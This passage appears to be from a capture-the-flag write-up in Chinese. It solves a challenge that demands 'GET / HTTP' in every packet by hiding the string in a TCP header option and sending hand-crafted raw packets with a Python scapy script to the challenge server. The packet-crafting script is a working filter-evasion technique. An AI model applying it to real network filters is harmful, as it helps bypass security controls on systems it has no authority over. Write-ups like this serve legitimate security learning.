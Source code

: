 ### 我的 GET

强制要求包里包含 `GET / HTTP`，显然从 header 入手。查了 specs 后发现 IP 头部的 options 大概是不能利用（试了几个发现都会被直接拦下来），所以最后用了 TCP 的 options。

```python
import socket
from scapy.all import IP, TCP, Raw, RandShort

token = 'XXX'

HOST = socket.gethostbyname(socket.gethostname())

s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_TCP)
s.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL, True)

host, port = '202.38.93.111', 18082
# host, port = '127.0.0.1', 4444

sport = int(RandShort())

def send(p):
    p.show()
    s.sendto(p.build(), (host, port))

def recv():
    rp, addr = s.recvfrom(65536)
    while addr[0] != host:
        rp, addr = s.recvfrom(65536)
    print(addr, len(rp), rp)
    rp = IP(rp)/TCP()
    rp.show()
    return rp

options = [(19, b'GET / HTTP')]
send(IP(dst=host)/TCP(flags='S', sport=sport, dport=port, options=options))

rp = recv()
send(IP(dst=host)/TCP(flags='A', sport=sport, dport=port, options=options, seq=rp.ack, ack=rp.seq+1))

content = f'POST / HTTP/1.1\r\nHost: {host}\r\nContent-Length: {len(token)}\r\n\r\n{token}'.encode()
send(IP(dst=host)/TCP(flags='PA', sport=sport, dport=port, options=options, seq=rp.ack, ack=rp.seq+1)/Raw(content))

recv()
recv()
```

---
